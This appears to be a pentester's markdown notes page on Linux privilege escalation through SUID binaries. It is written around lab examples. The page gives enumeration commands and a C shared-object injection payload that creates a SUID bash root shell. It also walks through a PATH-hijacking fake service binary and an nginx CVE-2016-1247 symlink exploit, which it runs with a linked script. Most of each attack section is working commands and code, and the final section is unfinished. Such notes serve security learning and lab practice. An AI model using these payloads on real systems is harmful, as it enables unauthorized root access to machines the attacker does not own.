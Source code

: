 # Escalation via SUID

## Enumeration

- `find / -perm -u=s -type f 2>/dev/null`  will list all the files with the suid perm
- You can see the suid perm in the permissions as an `s` like here:  
![image](https://user-images.githubusercontent.com/96747355/167308910-5b0a0157-6586-46bd-a213-42c229e996e8.png)  

## Exploitation

- Here again we can use [GTFOBins](https://gtfobins.github.io/#+suid) and check if our command is in there and has documented exploitation


## Practice

- You see and example of this exploit in [this writeup](../writeups/THM-vulnversity.md)

## SUID - Shared Object Injection

### Enumeration

- `find / -type f -perm -04000 -ls 2>/dev/null` 
- `ls -al nameoffile`

### Exploitation

- In our example the file is `/usr/local/bin/suid-so`
- `strace /usr/local/bin/suid-so 2>&1` with a grep on what could be interesting `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"` this will show us what happens with the file. This is the place to check if we have rights on one of the file it uses. In our example we will use the file in this output `open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)`
- Once we find a file we can try to overwrite it with a payload to elevate our privileges
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() { 
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
- We make a directory for our file 
- We compile our file `gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c` in my example the file I will overright is `/home/user/.config/libcalc.so`
- This way we just need to run the sid file which is `/usr/local/bin/suid-so` in our example
- And it should give us a root prompt  
![image](https://user-images.githubusercontent.com/96747355/170128114-817d12e9-27bf-429c-9682-6e29222cdcb4.png)  

## SUID - Binary Symlinks

- Issues on log created by nginx

### Enumeration 

- `./linuxexploitsuggester.sh` we should have this output `[+] [CVE-2016-1247] nginxed-root.sh` or we could manually look for this specific vulnerability by checking nginx version `dpkg -l | grep nginx`
- Now we need to check if the suid bit is set on sudo `find / -type f -perm -04000 -ls 2>/dev/null` or `ls -al /usr/bin/sudo`

### Exploitation

- `ls -al /var/log/nginx`
- We will need to create a malicious symlink
- We will use [this](https://github.com/xl7dev/Exploit/blob/master/Nginx/nginxed-root.sh) to do so
- `./nginxed-root.sh /var/log/nginx/error.log`
- When nginx will be restarted, we will be root  
![image](https://user-images.githubusercontent.com/96747355/170131842-3acc1171-23de-4d18-9691-167cf4649cc6.png)  
- Check out [this resource](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html) to learn more about this way to escalate

## SUID - Environmental Variables

### Enumeration 

- `find / -type f -perm -04000 -ls 2>/dev/null` we can then chek for env var with the suid bit activated in our example we have `/usr/local/bin/suid-env` this launches apache using service (we know this by making a strings on the file).  
![image](https://user-images.githubusercontent.com/96747355/170258997-532e61be-117c-4e9f-9ad9-a4e6c0644716.png)  

### Exploitation

- Let's create a malicious service and add it to our path so that it is launched instead of apache
- `echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c`
- `gcc /tmp/service.c -o /tmp/service`
- We now need to change our path `export PATH=/tmp:$PATH`  
![image](https://user-images.githubusercontent.com/96747355/170260619-089f2ad9-71ae-4dea-8283-a40ddbb0e5a7.png)  
- And now we just need to run the binary `/usr/local/bin/suid-env` to escalate to root  
![image](https://user-images.githubusercontent.com/96747355/170260873-6b5fa24d-658b-4ba2-b2a1-f2662a4ba839.png)  

## SUID - Environmental Variables with full path to binary

- `find / -type f -perm -04000 -ls 2>/dev/null` we can then chek for env var with the suid bit activated in our example we have `/usr/local/bin/suid-env2` this launches apache using its full path service (we know this by making a strings on the file).  
![image](https://user-images.githubusercontent.com/96747355/170265161-6ffb4183-13e3-418f-8317-5fb8ba1c1faf.png)  
**COMING SOON**

